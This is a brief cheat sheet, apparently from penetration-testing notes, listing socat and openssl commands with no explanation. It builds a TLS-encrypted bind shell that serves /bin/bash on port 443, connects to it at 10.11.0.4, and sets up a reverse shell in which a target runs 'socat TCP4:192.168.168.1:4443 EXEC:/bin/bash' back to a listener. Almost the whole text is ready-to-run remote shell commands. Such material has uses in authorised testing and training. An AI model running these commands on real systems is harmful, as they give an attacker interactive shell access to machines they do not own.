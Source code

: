 ### OpenSSL

```bash
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt
cat bind_shell.key bind_shell.crt > bind_shell.pem
```


```bash
sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash
```


```bash
socat - OPENSSL:10.11.0.4:443,verify=0
```

### Reverse Shell

```shell
socat -d -d TCP4-LISTEN:4443 STDOUT
```

```bash
socat TCP4:192.168.168.1:4443 EXEC:/bin/bash
```
